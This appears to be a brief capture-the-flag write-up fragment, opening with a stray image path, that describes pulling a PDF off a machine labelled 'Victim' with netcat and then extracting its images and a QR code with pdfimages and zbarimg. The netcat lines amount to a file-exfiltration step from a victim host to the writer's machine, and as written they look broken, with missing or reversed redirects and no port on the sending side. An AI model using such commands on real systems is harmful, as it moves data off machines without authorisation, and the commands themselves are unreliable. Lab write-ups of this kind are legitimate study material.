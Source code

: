 Download the pdf to my local machine
My machine - `nc -lvnp 1234 sus.pdf`  
Victim - `nc ip > pdf`  


use `pdfimages pdf -all images` to extract all images   
use `zbarimg` to extract the qrcode content  